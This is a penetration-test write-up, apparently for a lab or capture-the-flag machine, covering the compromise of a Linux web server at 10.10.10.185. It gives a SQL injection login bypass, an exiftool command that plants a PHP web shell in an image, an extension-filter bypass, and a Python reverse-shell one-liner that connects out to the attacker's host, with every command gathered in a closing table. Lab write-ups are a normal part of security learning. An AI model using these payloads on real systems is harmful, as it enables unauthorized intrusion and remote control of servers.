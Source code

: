 # LINUX WEB SERVER 10.10.10.185 VULNERABILITY and EXPLOITATION


# Introduction

Penetration testing session was conducted in order to determine Linux Web Server 10.10.10.185 exposure to a targeted attack. All activities were conducted in a manner that simulated a malicious actor engaged in a targeted attack against Linux Web Server and both Victim (Linux Web Server) and Attacker (Kali) were hosted on Virtual Box.

# Methodology

##


## Reconnaissance

Conduct Nmap scan in order to find out which ports are open.

![](images/1Scan.png)

_Fig: 1 | Nmap Scan finding._

![2scan](https://user-images.githubusercontent.com/31987272/81832653-64ddaa80-955c-11ea-8e87-148575326458.png)

_Fig: 2 | Nmap Scan finding._


Two ports identified after the Nmap scan,

- **22/tcp – Open SSH**

- **80/tcp – Open HTTP**


nmap -sC -sV -V 10.10.10.185

**Command used in Nmap Scan**

# Exploitation

After the Nmap Scan tried to find a vulnerability inside the server. Using open port tcp/80 (Open HTTP) try to brows the **10.10.10.185** server.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 3 | Home page of the server._

 ![](RackMultipart20200513-4-jxqdjd_html_b896cc90fbab910c.png)

There is a login. Tried to bypass the login and can successfully bypass the login using SQL Injection to the password filed. In this password field vulnerable to SQL Injection.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 4 | SQL Injection to Password Field._

 ![](RackMultipart20200513-4-jxqdjd_html_c3eea148e642f764.png)

It&#39;s directed to the image uploading page. In this they allowed only jpg, jpeg, png image file formats.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 5 | image uploading field._

 ![](RackMultipart20200513-4-jxqdjd_html_b9c49e59cee32ab.png)

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 6 | Allowed image formats._

 ![](RackMultipart20200513-4-jxqdjd_html_75168df10b683eea.png)

Then using this upload an image step try do an exploit so that inserting a payload to the image. Using exiftool.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 7 | Payload with image._

 ![](RackMultipart20200513-4-jxqdjd_html_4f376a1b892e9f2b.png)

Then this need to run using PHP so that change the file format as _ **php.jpg** __._ This only check the last format because of the weakness of the verification so easily can upload the image.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 8 | Change the image format._

 ![](RackMultipart20200513-4-jxqdjd_html_536118d6003ae044.png)

The check the location of the image which posted already in the server. Copy the location and rename the image name as _ **kalpani.php.jpg** __._ Then input the **cmd=ls** command to check whether is it working or not.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 9 | rename the file name in the location and command input._

 ![](RackMultipart20200513-4-jxqdjd_html_63a9a3c8215c3d3c.png)

It works. So now can execute the command in here and also can view the files in web directory.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 10 | view web directory files._

 ![](RackMultipart20200513-4-jxqdjd_html_b5c8c66600a38099.png)

After that take the revers shell python script from pentestmonkey cheat sheet and change the python version to python3 and include the python script to location and run. After this can take the web shell.

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 11 | Include the python script._

 ![](RackMultipart20200513-4-jxqdjd_html_8094662cccf07658.png)

# Proof

**Exploitation**

![](RackMultipart20200513-4-jxqdjd_html_73ad5a51ff318199.gif)

_Fig: 12 | Web Shell._

 ![](RackMultipart20200513-4-jxqdjd_html_670cffcf2ca47650.png)

#


#


# Command used

| Nmap Scan | nmap -sC -sV 10.10.10.185 |
| --- | --- |
| login bypass | username = anypassword = 1&#39; or &#39;1&#39;=&#39;1 |
| bypass file upload filter URL | https://github.com/xapax/security/blob/master/bypass\_image\_upload.md |
| Image bypass command | exiftool -Comment=&#39;\&lt;?php echo &quot;\&lt;pre\&gt;&quot;; system($\_GET[&#39;cmd&#39;]); ?\&gt;&#39; kalpani.jpg |
| image file format rename | kalpani.php.jpg |
| image location, change file name and give cmd-ls to vies directory | http://10.10.10.185/images/uploads/kalpani.php.jpg?cmd=ls |
| reverse shell script to image location | http://10.10.10.185/images/uploads/test.php.jpg?cmd=python3 -c &#39;import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((&quot;10.10.14.168&quot;,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);&#39; |
| listling check | nc -nlvp 1234 |
| directory list | ls |

# Conclusion

Even though the above evidence demonstrates that Linux web server is vulnerable. Using SQL Injection can bypass the server password fields in login page. Used pentestmonkey cheat sheet to take reverse shell python script, exiftool used to include payload in to the selected image.

